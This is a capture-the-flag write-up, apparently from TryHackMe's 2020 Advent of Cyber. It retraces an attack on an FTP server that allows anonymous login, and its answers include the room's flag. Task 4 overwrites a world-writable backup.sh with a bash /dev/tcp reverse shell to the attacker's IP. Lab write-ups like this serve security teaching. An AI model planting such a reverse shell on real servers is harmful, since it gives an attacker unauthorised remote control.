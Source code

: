 # `[Networking]` Anyone can be Santa
## Intro
>Even Santa has been having to adopt the "work from home" ethic in 2020. To help Santa out, Elf McSkidy and their team created a file server for The Best Festival Company (TBFC) that uses the FTP protocol. However, an attacker was able to hack this new server. Your mission, should you choose to accept it, is to understand how this hack occurred and to retrace the steps of the attacker.

# Tasks

### 1. Name the directory on the FTP server that has data accessible by the "anonymous" user `[******]`
```terminal
martin@box$ ftp 10.10.000.000
Connected to 10.10.000.000.
220 Welcome to the TBFC FTP Server!.
Name (10.10.000.000:martin): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode on.        #This for some reason wouldn't work without passive mode enabled
ftp> ls
227 Entering Passive Mode (10,10,000,000,146,237).
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Nov 16 15:04 backups
drwxr-xr-x    2 0        0            4096 Nov 16 15:05 elf_workshops
drwxr-xr-x    2 0        0            4096 Nov 16 15:04 human_resources
drwxrwxrwx    2 65534    65534        4096 Nov 16 19:35 public
226 Directory send OK.
ftp> cd public
250 Directory successfully changed.
ftp> ls
227 Entering Passive Mode (10,10,000,000,114,172).
150 Here comes the directory listing.
-rwxr-xr-x    1 111      113           341 Nov 16 19:34 backup.sh
-rw-rw-rw-    1 111      113            24 Nov 16 19:35 shoppinglist.txt
226 Directory send OK.

```
Answer = `public`

### 2. What script gets executed within this directory? `[******.**]`

As we can see from above:

Answer = `backup.sh`

### 3. What movie did Santa have on his Christmas shopping list? `[*** ***** *******]`

Unfortunately, due to the server requiring passive mode on in able to do anything, this stopped me from being able to pull anything off of the server via the `ftp` command. I decided just to go ahead and download an ftp client to continue, and downloaded both `shoppinglist.txt` and `backup.sh`.

Answer = `The Polar Express`

### 4. Re-upload this script to contain malicious data (just like we did in section 9.6. Output the contents of /root/flag.txt! `[***{*********************}]`

```bash
$ nano backup.sh
-------------------------------------------
#!/bin/bash

bash -i >& /dev/tcp/10.10.000.000/4444 0>&1
```


I just followed the procedure for a standard reverse shell in bash. Unfortunately this did not work on my own machine or a server I have access to in Paris for some reason. So I had to use their own attackbox.

Answer = `THM{even_you_can_be_santa}`

---
```
Tags:
    ftp
    netcat
    reverse shell
```